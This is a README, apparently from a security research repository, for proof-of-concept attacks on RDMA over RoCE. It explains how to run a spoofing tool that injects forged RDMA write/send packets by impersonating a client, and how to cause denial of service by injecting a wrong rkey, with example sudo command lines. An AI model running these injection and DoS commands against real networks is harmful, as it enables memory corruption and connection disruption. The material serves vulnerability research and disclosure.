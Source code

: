 # (A1) Packet Injection using Impersonation

The attack shows that an attacker can inject RDMA packets, since InfiniBand lacks source authentication. 


## Requirements
 * GCC >= 4.9 with C++11 features
 * rdma-core library, or equivalent RDMA verbs library 
 * RDMA-capable network devices must have assigned IP addresses
 * RDMA devices should be configured with RoCE enabled.
 * `sudo` access to inject a packet

## Usage 

To compile the code simply run `make`. 

To perform an attack, the victim connection should be created between a server and a client. The injection tool impersonates the client. The server should be launched first using `./server -a <IP> ` and then the client with `./client -a <IP> `, where `<IP>` is the IP address of the server. 
The server will print an example of a command that can be executed by the attacker to inject a RoCE *correct* packet.
For example, the server can output the following command:
```
sudo ./spoofv2 16 1 192.168.1.11 192.168.1.21 2319 10172812 94768298730720 563097
```
The command has the following format:
```
sudo ./spoofv2 <message size> <number of messages> <Source IP> <Destination IP> <QP number> <PSN> <remote address> <rkey>
```

The command above injects RDMA write packets and measures the injection time in microseconds. To inject a send packet, one should remove  `<remote address> <rkey>` arguments. For example:
```
sudo ./spoofv2 16 1 192.168.1.11 192.168.1.21 2319 10172812 
```

To facilitate the experiments, the client prints its state and also sends a message to the server each 60 seconds to check connectivity. In addition, the server prints messages when a Send request is received, and when a memory is corrupted by the attacker.

Basic usage. 
```
make
./server -a 192.168.1.10 
./client -a 192.168.1.10  % should be launched on a remote machine.
```


# (A2) DoS Attack by Transiting QPs to an Error State

To transition a QP to an error state, follow the instruction above for (A1), but modify the correct rkey of the injected roce packet. 

For example, if the correct command for injection is:
```
sudo ./spoofv2 16 1 192.168.1.11 192.168.1.21 2319 10172812 94768298730720 563097
```

Then you can use the following command to break a connection:
```
sudo ./spoofv2 16 1 192.168.1.11 192.168.1.21 2319 10172812 94768298730720 563098
```

Since the rkey is incorrect, the QP will transit to the error state. 